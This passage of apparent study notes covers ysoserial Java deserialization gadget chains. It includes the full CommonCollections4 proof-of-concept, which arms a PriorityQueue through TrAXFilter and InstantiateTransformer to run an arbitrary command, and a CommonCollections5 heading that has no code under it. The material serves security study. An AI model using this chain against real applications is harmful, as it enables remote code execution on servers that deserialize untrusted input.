 Use whichever payload in [[Java Deserialize Vulnerabilities, ysoserial study#CommonCollections1|CC1]] to reach the eventual payload.

End.

### CommonCollections4


> [!NOTE] pre-requirements
> JDK <= 1.7 
> commons-collections:commons-collections:4.0

This payload uses the same vulnerability as [[Java Deserialize Vulnerabilities, ysoserial study#CommonCollections2|CC2]] but uses a different exploit chain.
Specifically, this payload uses `TrAXFilter`, triggers transformer from its constructor.
Poc:
```java
Object templates = Gadgets.createTemplatesImpl(command);  
  
ConstantTransformer constant = new ConstantTransformer(String.class);  
  
// mock method name until armed  
Class[] paramTypes = new Class[] { String.class };  
Object[] args = new Object[] { "foo" };  
InstantiateTransformer instantiate = new InstantiateTransformer(  
      paramTypes, args);  
  
// grab defensively copied arrays  
paramTypes = (Class[]) Reflections.getFieldValue(instantiate, "iParamTypes");  
args = (Object[]) Reflections.getFieldValue(instantiate, "iArgs");  
  
ChainedTransformer chain = new ChainedTransformer(new Transformer[] { constant, instantiate });  
  
// create queue with numbers  
PriorityQueue<Object> queue = new PriorityQueue<Object>(2, new TransformingComparator(chain));  
queue.add(1);  
queue.add(1);  
  
// swap in values to arm  
Reflections.setFieldValue(constant, "iConstant", TrAXFilter.class);  
paramTypes[0] = Templates.class;  
args[0] = templates;  
  
return queue;
```


### CommonCollections5


> [!NOTE] pre-requirements
> JDK >= 1.8, reproduce with JDK1.8_0382
> commons-collections:commons-collections:3.1



[^1]: [Paper/浅谈Java反序列化漏洞修复方案.md at master · Cryin/Paper](https://github.com/Cryin/Paper/blob/master/%E6%B5%85%E8%B0%88Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D%E6%96%B9%E6%A1%88.md)